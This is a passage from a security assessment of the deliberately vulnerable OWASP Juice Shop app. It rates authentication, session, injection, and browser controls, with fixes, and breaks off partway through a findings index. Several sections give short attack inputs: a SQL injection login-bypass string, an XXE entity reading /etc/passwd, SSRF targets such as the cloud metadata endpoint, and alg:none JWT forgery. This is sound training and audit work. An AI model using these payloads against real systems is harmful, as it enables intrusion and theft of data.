| 7.10 File Parser and Outbound Request<br/>Controls | 🔴 Unsafe | XXE `noent:true`; zip-slip in `unzipper@0.9.15`;<br/>SSRF via fetch(user_url) |
| 7.11 Operations Runtime and Supply Chain | 🟡 Partial | Distroless container + CodeQL positive;<br/>critically outdated JWT libs; no Dependabot |
| 7.12 Real-time and Not Applicable Controls | 🟠 Weak | Socket\.IO unauthenticated; no WebSocket<br/>event authorization |
| 7.13 Defense-in-Depth Summary | 🔴 Critical | Zero effective layers; single bypass defeats<br/>entire security posture |

### 7.2 Identity and Authentication Controls

Juice Shop implements four authentication mechanisms: password-based login, Google OAuth (social login), TOTP/2FA, and anonymous access on 54 routes. All mechanisms are critically undermined by the committed RSA private key and vulnerable JWT library versions.

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.2.1 Password-Based Authentication](#721-password-based-authentication)
- [7.2.2 Federated Identity / OAuth](#722-federated-identity-oauth)
- [7.2.3 Multi-Factor Authentication (TOTP)](#723-multi-factor-authentication-totp)
- [7.2.4 Anonymous Access](#724-anonymous-access)

**Implemented controls:** Password login route (`/rest/user/login`), Google OAuth callback, TOTP setup/verify, selective `isAuthorized()` middleware

**Assessment:** Authentication is the weakest layer in the stack. The committed RSA private key (`lib/insecurity.ts:23`) means any internet user can forge admin JWTs without authentication. SQL injection in the login route (`routes/login.ts:34`) provides a second bypass path. `MD5` password hashing makes offline cracking trivial after any SQLi data exfiltration.

#### 7.2.1 Password-Based Authentication

**Status:** 🔴 Unsafe - login bypassed via SQL injection; passwords stored as unsalted `MD5`



```mermaid
sequenceDiagram
    participant U as User
    participant FE as Frontend
    participant API as Backend
    U->>FE: Initiate Password-Based Authentication
    FE->>API: Submit credentials / token
    API->>API: Verify and establish identity
    API-->>FE: Result (success / failure)
```
**Security assessment:** Login at `/rest/user/login` uses raw SQL string concatenation (`sequelize.query("SELECT * FROM Users WHERE email = '" + req.body.email + "'")`). A single apostrophe in the email field triggers a SQL error; a tautological payload (`' OR '1'='1'--`) bypasses authentication entirely and returns the first admin row. Registration at `/rest/user/register` lacks rate limiting.

Password storage uses `crypto.createHash('md5')` - not a password hashing function. `MD5` has no salt, no work factor, and is GPU-crackable at billions of hashes per second.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.2.2 Federated Identity / OAuth

**Status:** 🔴 Unsafe - IdP validation present but JWT issued with committed RSA key; TOTP not enforced on OAuth path


```mermaid
sequenceDiagram
    participant User
    participant Angular as Angular SPA
    participant Express as Express Backend
    participant Google as Google OAuth

    User->>Angular: Click "Login with Google"
    Angular->>Google: HTTPS - OAuth authorization request (implicit/code flow)
    Google-->>User: Login + consent
    Google-->>Angular: Access token / auth code
    Angular->>Express: POST /rest/oauth2/googleCallback with token
    Express->>Google: Validate token (google-auth-library)
    Google-->>Express: User profile (email, name)
    Express-->>Angular: Local JWT signed with hardcoded RSA key
    Note over Angular: JWT stored in localStorage - same risk as password login
```

**Security assessment:** OAuth identity resolution is handled via `google-auth-library`. The IdP-validated email is used to look up or create a local user record, then a local JWT is issued using the same hardcoded RSA private key. TOTP/2FA is NOT enforced on the OAuth login path - OAuth login bypasses the TOTP step entirely.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.2.3 Multi-Factor Authentication (TOTP)

**Status:** 🔴 Unsafe - TOTP implemented but bypassed via hardcoded RSA key and absent on OAuth path


```mermaid
sequenceDiagram
    participant User
    participant Express as Express Backend
    participant TOTP as otplib (routes/2fa.ts)
    participant DB as SQLite (User.totpSecret)

    User->>Express: POST /rest/2fa/setup (authenticated)
    Express->>TOTP: Generate TOTP secret
    TOTP-->>Express: Secret + QR code URI
    Express->>DB: Store totpSecret on User record
    Express-->>User: QR code for authenticator app

    User->>Express: POST /rest/2fa/verify (TOTP code)
    Express->>DB: Load totpSecret
    DB-->>Express: totpSecret
    Express->>TOTP: Verify code
    TOTP-->>Express: valid/invalid
    Express-->>User: tmpToken (short-lived JWT)
    Note over Express: tmpToken signed with same hardcoded RSA key
```

**Security assessment:** TOTP implemented via `otplib`; stored as `totpSecret` on the User model. TOTP verification issues a short-lived `tmpToken` signed with the same committed RSA private key - forging this token bypasses the TOTP step. TOTP is also not enforced on the Google OAuth login path.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.2.4 Anonymous Access

**Status:** 🔴 Unsafe - 54 unauthenticated routes include Critical injection and file-access vectors

**Security assessment:** 54 of 112 routes require no authentication. Critically, these include: `POST /file-upload` (XXE + zip-slip), `POST /profile/image/url` (SSRF), `GET /rest/products/search` (SQL injection), and `GET /ftp` (sensitive file listing). Anonymous access to these vectors represents the highest-risk attack surface.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.3 Session and Token Controls

JWT tokens constitute the sole session mechanism. The session layer is critically broken by the committed private key, localStorage storage, and lack of revocation.

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.3.1 JWT Signing and Validation](#731-jwt-signing-and-validation)
- [7.3.2 Token Storage Security](#732-token-storage-security)
- [7.3.3 Token Revocation](#733-token-revocation)
- [7.3.4 Cookie Security Flags](#734-cookie-security-flags)

**Implemented controls:** JWT `RS256` issuance via `jsonwebtoken@0.4.0`; validation via `express-jwt@0.1.3`; 6-hour expiry

**Assessment:** The session layer provides no real security boundary. The hardcoded RSA key makes token forgery trivial; localStorage storage makes token theft trivial via XSS; the absence of revocation means compromised tokens remain valid for 6 hours.

```mermaid
sequenceDiagram
    participant User
    participant Angular as Angular SPA
    participant Express as Express Backend
    participant JWT as jsonwebtoken@0.4.0

    User->>Express: POST /rest/user/login (credentials)
    Express->>JWT: jwt.sign(user, hardcodedPrivateKey, {expiresIn:'6h', algorithm:'RS256'})
    Note over Express: Private key hardcoded at lib/insecurity.ts:56 - committed to public repo
    JWT-->>Express: RS256-signed JWT (RSA-1024 key)
    Express-->>Angular: 200 OK - { token: "eyJ..." }
    Note over Angular: Token stored in localStorage - XSS-accessible
    Angular->>Express: Subsequent request with Authorization: Bearer token
    Express->>JWT: express-jwt({secret: publicKey}) - NO algorithms allowlist
    Note over Express: Algorithm-confusion risk: alg:none accepted by express-jwt@0.1.3
    JWT-->>Express: Decoded payload (forged tokens accepted)
    Note over Express: No server-side revocation list - token valid until 6h expiry
    Express-->>Angular: Protected resource
```

#### 7.3.1 JWT Signing and Validation

**Status:** 🔴 Unsafe - committed RSA-1024 key and `alg:none` acceptance defeat all token authenticity guarantees

**Security assessment:** `lib/insecurity.ts:56` - `jwt.sign(user, privateKey, {expiresIn:'6h', algorithm:'RS256'})`. The private key is the hardcoded string constant at line 23. Validation uses `express-jwt({secret: publicKey})` with no `algorithms` field - allowing algorithm substitution attacks. Both library versions (`jsonwebtoken@0.4.0`, `express-jwt@0.1.3`) have published CVEs for signature bypass.

- **Algorithm restriction:** `express-jwt@0.1.3` (pre-6.0) does not enforce algorithm validation. `jsonwebtoken@0.4.0` (pre-8.0) accepts tokens with `"alg":"none"` — a token with no signature is accepted as valid. Any user can forge a JWT with `{"alg":"none","typ":"JWT"}` header and arbitrary payload without knowing the private key.
- **Private key management:** `lib/insecurity.ts:23` contains the full RSA-1024 PEM private key hardcoded as a string literal, committed to the public GitHub repository. The key is used for JWT signing, HMAC generation (`lib/insecurity.ts:152`), and tmpToken issuance. RSA-1024 is below the current NIST minimum of 2048-bit. The private key cannot be rotated without a code change and a git history rewrite — the current git history permanently exposes it.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.3.2 Token Storage Security

**Status:** 🔴 Unsafe - JWT stored in localStorage; XSS vectors in the same SPA enable token exfiltration

**Security assessment:** Angular SPA stores JWTs in `localStorage` - accessible to any same-origin JavaScript, including XSS payloads. The `bypassSecurityTrustHtml()` calls in the same SPA create stored XSS vectors that can exfiltrate the stored JWT. An httpOnly, Secure, SameSite=Strict cookie would prevent this theft vector.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.3.3 Token Revocation

**Status:** 🔴 Missing - no server-side revocation list; stolen or forged tokens remain valid for 6 hours

**Security assessment:** `lib/insecurity.ts` maintains an in-memory token map but it is not used for revocation - logout only deletes the client-side `localStorage` entry. A server-side revocation list (denylist or blocklist) does not exist. Forged or stolen tokens remain valid until expiry (6 hours).

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.3.4 Cookie Security Flags

**Status:** 🔴 Unsafe - hardcoded cookie secret; SameSite, Secure, and httpOnly flags not globally enforced

**Security assessment:** `server.ts:289` - `app.use(cookieParser('kekse'))` with hardcoded secret. Cookies are not signed with a secure secret; `SameSite`, `Secure`, and `httpOnly` flags are not set globally. The `language` preference cookie is the only application cookie observed but the hardcoded secret weakens all cookieParser-dependent operations.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.4 Authorization Controls

Route-level authorization exists but is selective and bypassed by JWT forgery. No ownership-check pattern is enforced.

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.4.1 Route-Level Authorization](#741-route-level-authorization)
- [7.4.2 Role-Based Access Control](#742-role-based-access-control)

**Implemented controls:** `security.isAuthorized()` = `expressJwt({secret: publicKey})` applied to ~58 routes

**Assessment:** The `isAuthorized()` middleware validates JWT signatures but accepts forged tokens (committed key). Role enforcement is absent on most admin routes - the `role` field is read from the JWT payload, which is forgeable. IDOR is pervasive: basket, user profile, address, order, and wallet endpoints lack ownership checks.

#### 7.4.1 Route-Level Authorization

**Status:** 🔴 Unsafe - middleware applied selectively; JWT validation accepts forged tokens regardless

**Security assessment:** `isAuthorized()` is applied as Express middleware to ~58 routes via `server.ts:355-373`. It is missing on `/file-upload`, `/profile/image/url`, `/metrics`, and several admin-config endpoints. Even where applied, the underlying JWT validation accepts forged tokens and algorithm-switched tokens.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.4.2 Role-Based Access Control

**Status:** 🔴 Unsafe - role claim read from forgeable JWT payload; accounting role permanently broken; admin routes lack role checks

**Security assessment:** `lib/insecurity.ts:54` - the `role` claim is read from the decoded JWT payload with no server-side cross-check. `isAccounting()` uses a placeholder IP (`123.456.789`) that never matches, making the accounting role permanently broken. `denyAll()` middleware exists for some challenge routes but admin routes like `/api/Users` (returns full DB) are accessible to any valid JWT token regardless of role.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.5 Query Construction and Data Access Controls

SQL and NoSQL parameterization is available but intentionally bypassed in the highest-risk routes.

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.5.1 SQL Parameterization](#751-sql-parameterization)
- [7.5.2 NoSQL Injection Prevention](#752-nosql-injection-prevention)

**Implemented controls:** Sequelize ORM with parameterized API available

**Assessment:** Two critical routes bypass Sequelize parameterization with raw SQL string concatenation. The Sequelize ORM is the correct tool and is used correctly in many routes - the bypasses are intentional vulnerability insertions for CTF purposes.

#### 7.5.1 SQL Parameterization

**Status:** 🔴 Unsafe - Sequelize parameterized API present but bypassed in login and search routes via raw string concatenation

**Security assessment:** `routes/login.ts:34` - `sequelize.query("SELECT * FROM Users WHERE email = '" + req.body.email + "'"`. `routes/search.ts:23` - similar concatenation in a LIKE clause. Both bypass the Sequelize parameterized-query API that the rest of the codebase uses correctly. The fix is one line per route: use `sequelize.query("... WHERE email = ?", {replacements: [email]})`.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.5.2 NoSQL Injection Prevention

**Status:** 🔴 Unsafe - MarsDB query fed raw parsed JSON; operator injection accepted by intentionally vulnerable `marsdb@0.6.11`

**Security assessment:** `routes/recycles.ts:14` - `JSON.parse(req.params.id)` feeds a MarsDB query without validation. MarsDB 0.6.11 is intentionally vulnerable. The `marsdb` library accepts operator injection (`{"$gt":""}`) similar to MongoDB injection patterns.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.6 Input Boundary Validation Controls

Three separate `eval()` sinks, an XXE-enabled XML parser, unrestricted SSRF, and a zip-slip-vulnerable archive extractor - all in production code paths.

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.6.1 Validation Approach](#761-validation-approach)
- [7.6.1 Code Injection Prevention](#761-code-injection-prevention)
- [7.6.2 XML Entity Expansion Control](#762-xml-entity-expansion-control)
- [7.6.3 File Upload Validation](#763-file-upload-validation)

**Implemented controls:** multer for multipart/form-data parsing; extension-based file type check

**Assessment:** The input layer has no effective protection against code injection, XML entity injection, arbitrary file writes, or server-side request forgery. Each vector is a separate Critical or High finding in Section 8.

#### 7.6.1 Validation Approach

This codebase applies input validation within individual route handlers and parsing layers (see the boundary-specific sub-blocks below) rather than through a single application-wide validation schema enforced across all endpoints.

**Security assessment**

_Not assessed in detail; see the control overview in [§7.1](#71-security-control-overview)._

**Relevant findings**

- None identified for this control.
#### 7.6.1 Code Injection Prevention

**Status:** 🔴 Unsafe - `eval()` present in three production routes with no input sanitization or allowlist validation

**Security assessment:**
- `routes/userProfile.ts:62` - `const code = 'var username = \'' + req.body.username + '\''; ...eval(code)` - any authenticated user can execute arbitrary Node\.js
- `routes/b2bOrder.ts:23` - `vm.runInContext('safeEval(orderLinesData)', sandbox)` - `notevil` sandbox escape documented in public CVEs
- `routes/captcha.ts:22` - `eval(expression)` - math expression eval on CAPTCHA endpoint

No input sanitization, no allowlist validation before any `eval()` call.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.6.2 XML Entity Expansion Control

**Status:** 🔴 Unsafe - libxmljs2 configured with `noent:true`, enabling external entity resolution on an unauthenticated route

**Security assessment:** `routes/fileUpload.ts:83` - `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` - `noent: true` instructs libxmljs2 to resolve external entity references. A crafted XML payload with `<!ENTITY xxe SYSTEM "file:///etc/passwd">` causes the parser to read arbitrary files from the container filesystem and return their contents in the parsed output.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.6.3 File Upload Validation

**Status:** 🔴 Unsafe - ZIP path check bypassable via `includes()` pattern; magic-byte validation absent; zip-slip fully exploitable

**Security assessment:** `routes/fileUpload.ts:41-44` - ZIP extraction via `unzipper@0.9.15`. Path check: `absolutePath.includes(path.resolve('.'))` - the `includes()` check is bypassable with `../` prefixes that resolve outside the cwd but still contain the cwd string. A ZIP entry named `../ftp/legal.md` can overwrite the FTP legal document. Extension checking exists but no magic-byte validation - file type can be spoofed.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.6.4 SSRF Prevention

**Status:** 🔴 Missing - no URL validation, allowlist, or private-address blocking before outbound fetch

**Security assessment:** `routes/profileImageUrlUpload.ts:24` - `const response = await fetch(url)` where `url = req.body.imageUrl` - completely unvalidated. An attacker can supply `http://169.254.169.254/latest/meta-data/` (cloud metadata), `http://localhost:3000/api/Users` (internal API call without auth), or `file:///etc/passwd`. The fetched content is written to the public image serving path, causing information disclosure.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.7 Output Encoding and Rendering Controls

Angular XSS protection is explicitly bypassed in four components. Server-side encoding is inconsistent.

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.7.1 Angular XSS Protection](#771-angular-xss-protection)
- [7.7.2 Server-Side Output Encoding](#772-server-side-output-encoding)

**Implemented controls:** `sanitize-html` present; Angular's default sanitization used in most components

**Assessment:** The majority of Angular components use the framework's default safe rendering. The four components using `bypassSecurityTrustHtml()` are the actual attack surface for stored and reflected XSS.

#### 7.7.1 Angular XSS Protection

**Status:** 🔴 Unsafe - `bypassSecurityTrustHtml()` called on user-controlled data in four components, defeating Angular's default sanitization

**Security assessment:** Four components call `bypassSecurityTrustHtml()` on user-controlled data:
- `search-result.component.ts` - search query reflected into innerHTML (reflected XSS)
- `last-login-ip.component.ts` - Last-Login-IP header stored and reflected (stored XSS via Login header)
- `track-result.component.ts` - order tracking data (reflected XSS)
- `about.component.ts` - about page content

These bypasses are intentional CTF vulnerabilities. The fix is to remove `bypassSecurityTrustHtml()` and use Angular's default interpolation.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.7.2 Server-Side Output Encoding

**Status:** 🟠 Weak - sanitize-html present but not applied server-side; chatbot and error paths lack consistent encoding

**Security assessment:** `sanitize-html` is present in `package.json` dependencies but `bypassSecurityTrustHtml()` is used in the frontend instead of server-side sanitization. The chatbot response path and error pages do not apply consistent output encoding. API responses are JSON-encoded (safe for JSON consumers) but rendered directly in Angular components that bypass the sanitizer.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.8 Browser and Cross-Origin Controls

Wildcard CORS, absent CSP, and explicitly disabled XSS filter make the browser security posture critical.

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.8.1 CORS Policy](#781-cors-policy)
- [7.8.2 Content Security Policy](#782-content-security-policy)
- [7.8.3 Security Headers](#783-security-headers)

**Implemented controls:** `helmet@4.6.0` - `noSniff()` + `frameguard()` applied

**Assessment:** The three most impactful browser security controls are all missing or Unsafe. Combined with the XSS vulnerabilities in the Angular SPA, this means a successful XSS can make cross-origin requests to any domain, read the localStorage JWT, and exfiltrate all user data.

#### 7.8.1 CORS Policy

**Status:** 🔴 Unsafe - wildcard CORS applied globally; all origins and methods permitted with credential support

**Security assessment:** `server.ts:181-182` - `app.options('*', cors()); app.use(cors())` - all origins accepted, all HTTP methods allowed, credentials can be sent from any origin. The correct fix is `cors({origin: 'https://yourapp.com', credentials: true})`.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.8.2 Content Security Policy

**Status:** 🔴 Missing - no global CSP header; the only per-route CSP includes unsafe-eval and user-controlled img-src

**Security assessment:** No global CSP header is set. The userProfile route sets a page-level CSP (`img-src 'self' ${user?.profileImage}; script-src 'self' 'unsafe-eval'`) that includes `unsafe-eval` - necessary because `eval()` is used - and allows user-controlled `profileImage` values in `img-src`, enabling CSP injection.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.8.3 Security Headers

**Status:** 🔴 Unsafe - helmet present but xssFilter explicitly disabled; HSTS and key security headers not applied

**Security assessment:** `helmet@4.6.0` applies `noSniff()` (X-Content-Type-Options: nosniff) and `frameguard()` (X-Frame-Options: SAMEORIGIN). The `xssFilter()` middleware is explicitly commented out in `server.ts:187` with comment "= no protection from persisted XSS via RESTful API". HSTS, X-Permitted-Cross-Domain-Policies, and Expect-CT are not applied.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.9 Cryptography Secrets and Data Protection

`MD5` for passwords, RSA-1024 private key committed in public source, hardcoded cookie secret.

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.9.1 Password Hashing Algorithm](#791-password-hashing-algorithm)
- [7.9.2 Secret Management](#792-secret-management)

**Implemented controls:** `crypto` module available; `jssha` for HMAC operations

**Assessment:** No effective cryptographic protections are in place. Password hashing uses `MD5` (not a KDF), the JWT signing key is committed to a public repository, and the cookie secret is trivially guessable.

#### 7.9.1 Password Hashing Algorithm

**Status:** 🔴 Unsafe - `MD5` used for password hashing; no salt, no work factor, GPU-crackable at billions of hashes/second

**Security assessment:** `lib/insecurity.ts:151` - `const hmac = crypto.createHash('md5')` used to hash passwords. `MD5` is a general-purpose hash function with no salt, no work factor, and GPU-crackable at ~10 billion hashes/second. The correct alternative is `bcrypt.hash(password, 12)` or `argon2.hash(password)`.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.9.2 Secret Management

**Status:** 🔴 Unsafe - RSA private key, cookie secret, and OAuth credentials all hardcoded in version-controlled source

**Security assessment:**
- `lib/insecurity.ts:23` - RSA-1024 PEM private key hardcoded as a string constant
- `server.ts:289` - cookie secret `'kekse'` hardcoded
- `config/default.yml` - Google OAuth client ID and production callback URIs in version control
- No environment variable loading (dotenv or similar) observed
- No secrets manager (Vault, AWS Secrets Manager, etc.) referenced

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.10 File Parser and Outbound Request Controls

All three controls in this domain are Missing - XXE, zip-slip, and SSRF are all fully exploitable.

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.10.1 XML Parser Security](#7101-xml-parser-security)
- [7.10.2 Archive Extraction Safety](#7102-archive-extraction-safety)
- [7.10.3 SSRF Defense](#7103-ssrf-defense)

**Implemented controls:** None

**Assessment:** The file upload handling path (`routes/fileUpload.ts`) concentrates three distinct Critical/High vulnerabilities: XXE via libxmljs2, zip-slip via unzipper, and indirectly SSRF via the profile image URL route.

#### 7.10.1 XML Parser Security

**Status:** 🔴 Unsafe - libxmljs2 configured with `noent:true` on an unauthenticated route; one flag change closes the vector

**Security assessment:** `routes/fileUpload.ts:83` - `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })` - `noent: true` is the flag that enables XXE. Setting `noent: false` closes the vector entirely. The route is unauthenticated, making this a zero-click Critical finding.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.10.2 Archive Extraction Safety

**Status:** 🔴 Unsafe - `includes()` path check bypassable; `unzipper@0.9.15` intentionally vulnerable; zip-slip fully exploitable

**Security assessment:** `routes/fileUpload.ts:39-44` - ZIP entries are extracted using `unzipper@0.9.15`. The path check `absolutePath.includes(path.resolve('.'))` is the vulnerable pattern: a crafted entry path like `../../ftp/legal.md` resolves to a path that still contains the CWD string as a prefix if the CWD is `/juice-shop` and the path traversal produces `/juice-shop/ftp/legal.md`. The challenge specifically targets overwriting `ftp/legal.md` (`challenges.fileWriteChallenge`).

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.10.3 SSRF Defense

**Status:** 🔴 Missing - no URL allowlist or private-address blocking; fetched content written to publicly served path

**Security assessment:** `routes/profileImageUrlUpload.ts:24` - `const response = await fetch(url)` - no validation, no allowlist, no private-address blocking. Cloud IMDS, internal services, and the filesystem can all be reached depending on the platform. The result is written to `frontend/dist/frontend/assets/public/images/uploads/` and served publicly.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.11 Operations Runtime and Supply Chain Controls

Container hardening and SAST/DAST are genuine strengths; dependency hygiene and CI permissions are weak.

**Verdict:** 🟡 Partial

**Controls covered:**

- [7.11.1 Container Hardening](#7111-container-hardening)
- [7.11.2 Dependency Management](#7112-dependency-management)
- [7.11.3 CI/CD Security](#7113-cicd-security)
- [7.11.4 Rate Limiting](#7114-rate-limiting)
- [7.11.5 Automated SAST/DAST](#7115-automated-sastdast)

**Implemented controls:** Distroless container, non-root UID 65532, multi-stage Docker build, CodeQL SAST, OWASP ZAP DAST

**Assessment:** Juice Shop's deployment packaging is well-hardened for a training application. The container base, user isolation, and CI security scanning are production-grade positives. The intentionally outdated dependencies and missing Dependabot configuration are deliberate vulnerabilities.

#### 7.11.1 Container Hardening

**Status:** 🟢 Effective - distroless base, non-root UID 65532, multi-stage build, and CycloneDX SBOM applied

**Security assessment:** `Dockerfile` - multi-stage build with `gcr.io/distroless/nodejs24-debian13` runtime image. Distroless provides no shell, no package manager, and minimal attack surface. `USER 65532` (nonroot) prevents privilege escalation within the container. SBOM generated via CycloneDX on build.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.11.2 Dependency Management

**Status:** 🔴 Unsafe - outdated/vulnerable dependencies pinned (libxmljs2, `unzipper@0.9.15`, `jsonwebtoken@0.4.0`), no automated update gate

**Security assessment:** `package.json` pins `jsonwebtoken@0.4.0`, `express-jwt@0.1.3`, `libxmljs2@~0.37.0`, `unzipper@0.9.15` - all intentionally outdated with known CVEs. No Dependabot or Renovate configuration present (`.github/dependabot.yml` absent). The outdated versions are the training vulnerabilities themselves.

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.11.3 CI/CD Security

**Status:** 🟠 Partial - pipeline present but no secret-scanning / SAST gate enforced

**Security assessment:** `.github/workflows/ci.yml` lacks a top-level `permissions:` block - 16 config-scan findings. Third-party actions like `coverallsapp/github-action@v2` are pinned by tag rather than commit digest - a supply-chain risk. Positive: CodeQL SAST (`codeql-analysis.yml`) and ZAP DAST (`zap_scan.yml`) are present and run in CI.

**Trust boundaries (operations tier):**
- **App container / CI pipeline** — GitHub Actions with separate credentials; GITHUB_TOKEN permissions unconstrained due to missing `permissions:` block
- **Container runtime / host OS** — Distroless + non-root; no shell escape path

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.11.4 Rate Limiting

**Status:** 🔴 Missing - no rate limiting on login or sensitive endpoints

**Security assessment:** `express-rate-limit` applied to: `POST /rest/user/reset-password` (100 req/5min), login (`/rest/user/login` via `server.ts:458`-471 - 100/5min), and basket endpoints. Most of the 112 routes are unprotected. The brute-force protection on login is minimal (100 attempts per 5 minutes still allows significant credential stuffing).

**Relevant findings**

- No dedicated finding routed in this assessment.

#### 7.11.5 Automated SAST/DAST

**Status:** 🟠 Partial - some tooling present, not gating merges

**Security assessment:** `.github/workflows/codeql-analysis.yml` runs CodeQL on push/PR. `.github/workflows/zap_scan.yml` runs OWASP ZAP against the running application. Both are genuine security scanning tools applied in CI. The intentional vulnerabilities in Juice Shop would be flagged by these tools in a real codebase.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.12 Real-time and Not Applicable Controls

Socket\.IO is present but unauthenticated. CSRF protection is not applicable in a token-based API but CSRF on form endpoints is absent.

**Verdict:** 🟠 Weak

**Controls covered:**

- [7.12.1 WebSocket Authentication](#7121-websocket-authentication)

**Implemented controls:** Socket\.IO server present on port 3000

**Assessment:** Socket\.IO is used for the chatbot and real-time challenge notifications. No JWT check is performed on the Socket\.IO connection handshake or on emitted events - any client can connect and receive all broadcast events.

#### 7.12.1 WebSocket Authentication

**Status:** 🔴 Unsafe - Socket\.IO channel is unauthenticated

**Security assessment:** `frontend/src/app/Services/socket-io.service.ts:8` connects to the Socket\.IO server without passing any authentication token. The server accepts all connections. Challenge completion events and chatbot messages are broadcast to all connected sockets - a passive eavesdropper can observe all challenge activity.

**Relevant findings**

- No dedicated finding routed in this assessment.

### 7.13 Defense-in-Depth Summary

Juice Shop has zero effective security layers. Every major control category is either Missing, Unsafe, or Weak. An attacker reaching any network path to port 3000 can achieve full application compromise via multiple independent paths, each requiring minimal skill.

**Defense layers assessment:**

| Layer | Rating | Notes |
|--------------------|----------|------------------------------------|
| Network/Edge | - | No WAF or proxy in source; out of scope for<br/>source-level assessment |
| Transport | 🟡 Partial | HTTPS available; HTTP also available in dev;<br/>no HSTS |
| Application (auth) | 🔴 Unsafe | SQL injection login bypass; forged JWT;<br/>`alg:none` bypass |
| Application (input) | 🔴 Unsafe | `eval()` in 3 routes; XXE; SSRF; zip-slip |
| Application (output) | 🟠 Weak | bypassSecurityTrustHtml; wildcard CORS; no<br/>CSP |
| Cryptography | 🔴 Unsafe | `MD5` passwords; committed RSA key; hardcoded<br/>cookie secret |
| Data/Storage | 🔴 Unsafe | Raw SQL; MarsDB injection; unauthenticated<br/>FTP directory |
| Container | 🟢 Adequate | Distroless; non-root UID; multi-stage build |
| CI/CD | 🟡 Partial | CodeQL + ZAP in CI; missing permissions<br/>blocks; outdated deps |

**Overall architecture security rating:** 🔴 **Critical** - Juice Shop is intentionally designed to fail every security control category. The training value comes from the density and diversity of vulnerabilities. This is not fit for any production or internet-facing deployment without a complete security overhaul.

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 10 · 🟠 High: 30 · 🟡 Medium: 6 · 🟢 Low: 2 · **Total findings: 48**
**STRIDE Coverage:** Spoofing: 6 · Tampering: 8 · Repudiation: 1 · Information Disclosure: 21 · Denial of Service: 5 · Elevation of Privilege: 7

**Findings index:**<br/>🔴 [F-001](#f-001) — JWT Algorithm Confusion (`lib/insecurity.ts:191`)<br/>🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter (`routes/memory.ts:15`)<br/>🟠 [F-003](#f-003) — Missing Security Audit Logging (`routes/updateProductReviews.ts:17`)<br/>🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage (`login.component.ts:101`)<br/>🟠 [F-005](#f-005) — GitHub Actions Workflow Missing Permissions Block (`ci.yml:1`)<br/>🟠 [F-006](#f-006) — Sensitive REST Route Without Auth Middleware (`server.ts:310`)<br/>🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2`…<br/>🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-010](#f-010) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🔴 [F-011](#f-011) — XML External Entity Injection (`routes/fileUpload.ts:83`)<br/>🔴 [F-012](#f-012) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)<br/>🔴 [F-013](#f-013) — Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🔴 [F-014](#f-014) — Zip Slip Path Traversal (`routes/fileUpload.ts:44`)<br/>🟠 [F-015](#f-015) — OAuth Implicit Flow with Derived Predictable Password…<br/>🟠 [F-016](#f-016) — JWT decode used without signature verification (`lib/insecurity.ts:58`)<br/>🟠 [F-017](#f-017) — Stored Cross-Site Scripting (`about.component.ts:119`)<br/>🟠 [F-018](#f-018) — Stored XSS (`last-login-ip.component.ts:39`)<br/>🟠 [F-019](#f-019) — Stored Cross-Site Scripting (`search-result.component.ts:132`)<br/>🟠 [F-020](#f-020) — Reflected Cross-Site Scripting (`search-result.component.ts:170`)<br/>🟠 [F-021](#f-021) — NoSQL Mass-Update Injection (`routes/trackOrder.ts:18`)<br/>🟠 [F-022](#f-022) — DOM-Write of Raw User Data Export (`data-export.component.ts:71`)<br/>🟠 [F-023](#f-023) — Uses --unsafe-perm npm install flag — Dockerfile:5<br/>🟠 [F-024](#f-024) — Third-party GitHub Action not pinned to commit SHA (`ci.yml:161`)<br/>🟠 [F-025](#f-025) — Docker base image 